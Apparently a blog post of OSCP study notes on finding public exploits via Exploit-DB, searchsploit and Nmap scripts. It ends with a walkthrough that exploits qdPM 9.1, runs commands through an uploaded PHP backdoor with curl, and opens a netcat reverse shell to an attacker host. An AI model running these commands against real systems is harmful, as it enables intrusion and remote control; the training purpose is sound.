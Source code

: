 ```yaml
---
title: Locating Public Exploits
date: 2024-02-11 09:45:00 -0600
categories: [OSCP]
tags: [oscp, pen200, offsec, certs]     # TAG names should always be lowercase
---
```

*The Public Exploit tools and tactics reviewed here are presented specifically in preparation for the OSCP exam per course suggestions and are by no means replacements for the OSCP training course, nor comprehensive guides for this step in the Kill Chain.*

# Locating Public Exploits

After information gathering and enumeration, we can cross-check the discovered software for known vulnerabilities and find public exploits for them.

**Carefully read and understand all code before executing** a publicly-found exploit. If inspecting the code would be too complex, set up a VM with clean snapshots as an exploit testing ground (sandbox).

## Online Exploit Resources

### The Exploit Database (Exploit-DB/EDB)

[EDB](https://www.exploit-db.com/) is maintained by OffSec and stores exploits gathered through public resources, submissions, and mailing lists.

In the home page:
- D field allows you to download the file.
- A field lists the vulnerable application files of respective exploits which we could download to test on.
- V field indicates if the exploit has been verified by trusted members.
- Type field tags an exploit as dos, local, remote, or webapp.
- Platform field indicates which system(s) are impacted by the exploit.

In an exploit's page:
- EDB-ID - unique ID
- CVE
- Exploit code

### Packet Storm

[Packet Storm](https://packetstormsecurity.com/) is an InfoSec site that hosts up-to-date information on security news, tools, and exploits.

### GitHub

[OffSec has their own GitHub account](https://github.com/offensive-security) that hosts precompiled exploits for easy execution, such as those in exploitdb-bin-sploits.

### Google Search Operators

We can begin searching exploits using a software version and the "exploit" keyword. (Be careful with all public exploits!)

```console
$ firefox --search "Microsoft Edge site:exploit-db.com"
```

Other search operators we can use include inurl, intext, and intitle.

## Offline Exploit Resources

### Exploit Frameworks

Metasploit hosts preloaded exploits with minor config settings.

CoreImpact is owned by HelpSystems and there are no free versions. However, it can automate testing, link to vuln scanners, conduct phishing campaigns, and re-test systems to validate remediation efforts.

Canvas is a paid framework made by Immunity that is updated every month.

BeEF (Browser Exploitation Framework) is a pentest tool specific to client-side attacks to execute in a web browser.

### SearchSploit

The downloadable archived copy of all ExploitDB exploit code is included in Kali in the exploitdb package. 

Update your local copy in /usr/share/exploitdb:

```console
$ sudo apt update && sudo apt install exploitdb
```
/usr/share/exploitdb contains twoCSV files for each of the exploits and shellcode directories, which contain similar information to what you would find in the EDB website.

```console
$ ls -1 /usr/share/exploitdb/

exploits
files_exploits.csv
files_shellcodes.csv
shellcodes

$ ls -1 /usr/share/exploitdb/exploits

aix
alpha
android
arm
ashx
asp
aspx
atheos
beos
bsd
bsd_x86
cfm
cgi
freebsd
...
```

This is where Searchsploit comes in handy.

```console
// view the manual for help

$ searchsploit

// list all exploits for given search terms

$ searchsploit remote smb microsoft windows

// copy the exploit to your working dir using -m if you need to be able to modify it

$ searchsploit -m windows/remote/48537.py
$ searchsploit -m 42031
```

### Nmap NSE Scripts

Nmap enumeration can automate some of our tasks using scripts that can brute force, fuzz, and detect vulns. The whole repo can be found at /usr/share/nmap/scripts, and you can use grep to dearch for exploits.

```console
$ grep Exploits /usr/share/nmap/scripts/*.nse
```

Display specfici script info by running nmap with the --script-help option.

```console
$ nmap --script-help=clamav-exec.nse
```

## Exploiting a Target

Scan for open ports.

Imagine port 80 and 22 are running. SSH is generally not vulnerable, so let's check the web server in our browser.

Let's use a web directory enumeration tool to scan for hidden directories.

```console
gobuster dir -u http://192.168.204.11/ -w '/usr/share/wordlists/dirb/common.txt' 
```

Found an interesting dir? Check it out in the browser. Say we found a login portal with a software version qdPM 9.1 for a free web-based PM software. If we weren't given the software version upfront, we can check the source code.

[Search ExploitDB for "qdPM 9.1".](https://www.exploit-db.com/exploits/50944)https://www.exploit-db.com/exploits/50944

In reviewing the exploit code, we see the username must be an email address, which we have on the About Us page of our target side. However, we need passwords. You can use a wordlist generator on the site to compile keywords potentially used in passwords.

Copy the exploit to your working  dir. Run the exploit using the credentials you have found.

```console
$ python3 50944.py -url http://111.111.111.111/project/ -u jane@targetsite.com -p bruteforcedpassword

You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2024-02-17 18:58 
Backdoor uploaded at - > http://111.111.111.111/project/uploads/users/972029-backdoor.php?cmd=whoami
```

Use curl to verify.

```console
$ curl http://111.111.111.111/project/uploads/users/972029-backdoor.php?cmd=whoami

<pre>www-data
</pre>     
```

Success! Modify your curl command to automatically encode your commands.

```console
$ curl http://111.111.111.111/project/uploads/users/972029-backdoor.php --data-urlencode "cmd=which nc"


<pre>/usr/bin/nc
</pre>    
```

This showed us that nc is on the target! Let's run a listener on the attacker machine and start a reverse shell from the target machine.

```console
// first terminal

$ nc -lvnp 6666

// second terminal

$ curl http://111.111.111.111/project/uploads/users/972029-backdoor.php --data-urlencode "cmd=nc -nv 222.222.222.222 6666 -e /bin/bash"
```
